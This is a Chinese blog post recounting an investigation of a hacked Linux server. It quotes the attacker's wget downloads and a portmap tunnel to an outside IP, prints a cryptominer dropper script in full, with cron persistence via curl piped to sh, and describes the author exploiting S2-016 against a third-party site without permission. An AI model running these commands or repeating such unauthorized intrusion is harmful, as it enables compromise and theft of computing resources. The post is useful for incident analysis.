 ```yaml
---
layout:   post
title:  "某服务器被入侵,追踪入侵者"
subtitle: "记录一次入侵分析的经历"
date:  2017-07-05 23:28:02 +0800
author: Les1ie
catlog: true
tags:
 - 网络安全
 - 入侵分析
---
```

## 0x01 
一个linux运维的群里面，今天突然有人说服务器被黑了，找人帮忙分析，日志被清除了，只留下了几条执行过的命令，他给出了个几个截图，都是他执行过的命令
![](/img/s2-016/first-ask.png)


## 0x02 
看了下他的截图， 攻击者最初是如何进入系统的已经无法知道了，说让他给我他公司服务器地址让我测试也没后文，所以对方如何进入服务器我也不得而知，他说服务器是tomcat的，觉得可能有apache的几个漏洞进去的，或者是账户被爆破，密钥泄露之类的

后来他给出了几个截屏，里面看到他在一个网站下载了一个工具包，目测是肉鸡，然后在里面拿出了扫描器, 然后扫了一波内网。
攻击者最初
```
$ wget http://98.142.135.215:8088/scan.tar.gz
```
攻击者下载了扫描的工具包，扫了一波内网，然后似乎是发现这个东西扫不动，编译了pscan2继续来，执行了
```
$ ./x 192.168
```
扫了整个内网
接着 
```
$ wget http://98.142.135.215:8088/portmap
```
![](/img/s2-016/subnet1.png)
这个时候是拿到了边缘主机的权限，下载工具准备搭建代理，准备内网继续攻击。
```
$ ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 98.142.135.215 -p2 6666
```
嗯，这个人其实最开始没有加`./portmap`, 也没有 `chmod +x portmap`, 直接执行了`portmap xxxxx` 哈哈哈哈

![](/img/s2-016/portmap.jpg)
现在代理搭建好了，22转发到了攻击者机器去了


后来他说在几台内网弱口令机器里面发现了攻击者下载的文件。我去肉鸡上把他下载下来了，上传到这里了，感兴趣的可以拿去分析一下。

[lssh.jpg](/img/s2-016/lssh.jpg)以及[xmr.tar.gz](/img/s2-016/xmr.tar.gz)

攻击者扫的内网看起来收获不小...拿到了好多台服务器，内网真是个危险的地方

后来他说他没意识到攻击者此时正在他的电脑上，然后攻击者在发现他结束了恶意进程之后便删去日志走了



## 0x03
其实写博客的时候才发现他给的截图里面很多信息我都没注意到

我看了下下载`lssh.jpg`和`xmr.tar.gz`的网站，注意到了网址是`xxx.xx.com/index.action`觉得很有可能是s2-045打进去的，网上找了很多exp都不行，打不进去，后来找同学要了另外的exp, 发现另外的漏洞， s2-016, cve编号cve-2013-2251，还是一个远程执行的漏洞，拿着这个直接打进去了，找了下网站的根目录，发现了前人的脚步，很多的传上来的文件还有jsp的一句话,这时候不想继续干下去了，因为怕事。。。另一个原因是...编程之美要提交项目了我还没干完...

另外发现网站的首页被挂了黑链
![](/img/s2-016/link.png)
..然后想了想，决定给管理员发邮件，网站被前人干成这样了都..

晚上突然想着不如扔给补天吧，这样我不用自己出面找管理员补洞了。

我自己在虚拟机里面下载了`xmr.tar.gz`, 看了下里面有这样的东西
![](/img/s2-016/xmr_file.png)

代码如下
```bash
cat lssh.jpg 
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
plt=`cat /proc/cpuinfo|grep aes`
ps x|grep stratum|grep -v grep|awk '{print $1}'|xargs kill -9 > /dev/null 2>&1
if [ `whoami` = "root" ]; then
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/crontabs/root
curl -O http://www.x.com/picture/lssh.jpg  > /dev/null 2>&1; mv lssh.jpg /etc/cron.daily/anacron ; chmod +x /etc/cron.daily/anacron||wget -O /etc/cron.daily/anacron http://www..jpg > /dev/null 2>&1 ; chmod +x /etc/cron.daily/anacron
else
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg | sh" |crontab -	
fi
DoYam()
{
	if [ ! -f "/var/tmp/xmr.tar.gz" ]; then
curl -fsSL  http://www.x.com/picture/xmr.tar.gz -o /var/tmp/xmr.tar.gz || wget  http://www.x.com/picture/xmr.tar.gz -O /var/tmp/xmr.tar.gz
    fi
	tar zxf /var/tmp/xmr.tar.gz -C /var/tmp/	
    chmod +x /var/tmp/xmr/*
	export LD_LIBRARY_PATH=/var/tmp/xmr
	cd /var/tmp/xmr
	if [ "$plt" != "" ]
     then 
     (exec ./httpd -c httpd.cnf &> /dev/null &)
     else
	 #no aes 
	 (exec ./apache -c httpd.cnf &> /dev/null &)
    echo no
    fi
}
#ps auxf|grep -v grep|grep "httpd.conf" || DoYam
ps x |grep httpd.cnf|grep -v grep || DoYam
```


发现我们 naive了..这个就是个挖矿的，检测是否支持aes是用来启动不同的挖矿程序，而不是...httpd和apache

他说内网的机器也被部署挖矿的了，新上线的主机也是弱口令..

有点想沿着挖矿的法国的控制机器再找一找，因为另一台肉鸡是国内的..说好了不打国内的网站...

其实有点想去那个肉鸡的xmr.tar.gz加一个我自己的木马进去，这样他的马儿跑起来了我就能找到这一次的入侵者了， 另外昨天没有去分析一下肉鸡的apache日志，看看那个人到底有多少打进去了的电脑..., 

2017年7月6日01:47:33

赶紧睡觉，明早有课，感觉药丸

## 0x04 
给了他一个exp, 然后..

2017年7月6日12:24:32
![](/img/s2-016/bugs.png)


嗯，就这样..

## 0x05 结尾
2017年9月9日10:33:33

最后的结果是...见网友，请我和婶婶吃了一顿串串


![](/img/s2-016/food.jpg)


有始有终哈哈哈哈哈


